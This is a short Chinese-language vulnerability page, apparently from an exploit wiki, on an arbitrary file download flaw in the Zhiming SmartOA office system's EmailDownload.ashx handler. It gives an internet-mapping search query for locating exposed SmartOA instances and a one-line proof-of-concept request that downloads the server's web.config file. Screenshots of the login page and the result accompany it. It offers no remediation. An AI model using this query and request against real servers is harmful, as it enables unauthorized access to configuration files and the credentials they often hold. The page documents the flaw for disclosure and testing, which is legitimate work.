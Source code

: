 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

<a-checkbox checked>智明 SmartOA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="智明协同-SmartOA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1631326538226-96c43380-0494-47e1-899c-7e115530b1bb.png)

验证POC

```python
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![img](/assets/PeiQi-Wiki/img/1631326793699-a63d3321-beee-4241-9369-2e3ccb9ac39f.png)